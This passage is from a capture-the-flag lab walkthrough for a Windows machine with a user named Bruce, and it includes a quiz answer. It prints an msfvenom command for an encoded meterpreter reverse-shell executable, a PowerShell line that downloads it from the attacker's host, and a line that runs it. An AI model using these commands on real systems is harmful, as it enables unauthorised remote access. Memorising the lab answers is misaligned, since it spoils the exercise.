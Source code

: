 <img src="https://user-images.githubusercontent.com/67650329/193412804-ae102476-01ed-478c-a43e-7839cdbc62f0.png" width="400px" align="center">

And you can see your listener reply your script.

<img src="https://user-images.githubusercontent.com/67650329/193412895-7d80e964-4b29-4f5b-a3bd-f416f0728287.png" width="400px" align="center">

So you are inside the machine.

<img src="https://user-images.githubusercontent.com/67650329/193412953-477970cc-ed4c-4960-b85f-7b68cffb1f0f.png" width="400px" align="center">

Get the user.txt on `Bruce Desktop`

<img src="https://user-images.githubusercontent.com/67650329/193413182-acde4d5a-c35e-48a8-8a2d-9b954131716c.png" width="400px" align="center">

After we get user Bruce, we can exploit user Administrator.

We use metasploit to baypass user Administrator.

You can download this Shell first.

-> `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

<img src="https://user-images.githubusercontent.com/67650329/193413413-91187ff5-6b69-465b-9f31-9e04534d37af.png" width="400px" align="center">

**What is the final size of the exe payload that you generated**

**Answer: 73802**

Run the Metasploit.

<img src="https://user-images.githubusercontent.com/67650329/193413534-c2c30c22-8643-4ab5-a3bf-7b6553c6718b.png" width="400px" align="center">

LHOST -> Local Host [Your_IP]

LPORT -> Local Port [Your_Port]

PAYLOAD -> Selected Script

After you write all the requirements you can write `run/exploit`

<img src="https://user-images.githubusercontent.com/67650329/193413692-438f3547-d7dc-4d8b-80f4-e5784194e60e.png" width="400px" align="center">

Download the shell on the Bruce machine with this script:

-> `powershell "(New-Object System.Net.WebClient).Downloadfile('http://{your_ip}:8000/shell-name.exe','shell-name.exe')"`

After you download the shell on Bruce machine you must start the shell.

`Start-Process "shell-name.exe"`

<img src="https://user-images.githubusercontent.com/67650329/193413922-f6c145d3-8e1c-4fbe-894d-83dc2881466e.png" width="400px" align="center">

And you get into the meterpreter.

<img src="https://user-images.githubusercontent.com/67650329/193414100-1873f1f9-7ca2-4212-8f3c-6656eaf182b4.png" width="400px" align="center">
